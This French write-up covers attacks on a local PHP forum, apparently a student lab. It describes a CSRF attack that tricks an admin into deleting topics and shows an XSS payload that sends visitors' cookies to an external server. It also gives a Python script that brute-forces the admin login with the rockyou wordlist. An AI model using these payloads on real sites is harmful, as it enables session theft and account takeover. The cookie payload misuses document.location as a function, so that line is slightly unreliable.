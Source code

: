   - CSRF

Comme il n'y a pas de jeton csrf :

![csrf](csrf.png)

On peu crée une page et pour peu que les cookies ne soit pas en samesite origin (ce qui est le cas), peu rejouer la requête pour supprimer n'importe quelle topic. L'idée c'est de faire en sorte que l'admin visite une page qui contient un formulaire qui va ce lancer automatiquement via du js.



  - Exploitation des cookies

On peu lancer un serveur externe et utiliser ce payload pour récupérer les cookie de n'import qui qui charge la page :

```
<script>document.location('http://localhost:8000'+document.cookie)</script>
```

![csrf](proofxsscookie.png)

  - Brute force sur l'authentification

On peu capturer la requete de login et l'intégrer dans un script python pour la rejouer avec d'autre mdp :

```python
def login_to_site(username, password):
    url = "http://localhost:8080/auth.php"
    data = {
        "login": username,
        "mdp": password,
        "valider": "Valider"
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1",
        "Priority": "u=0, i"
    }
    
    response = requests.post(url, data=data, headers=headers)

    return len(response.text)

username = "admin"
password_list = [pwd.replace("\n", "") for pwd in open("rockyou.txt", "r").readlines()]
for p in password_list:
  response = login_to_site(username, p)
```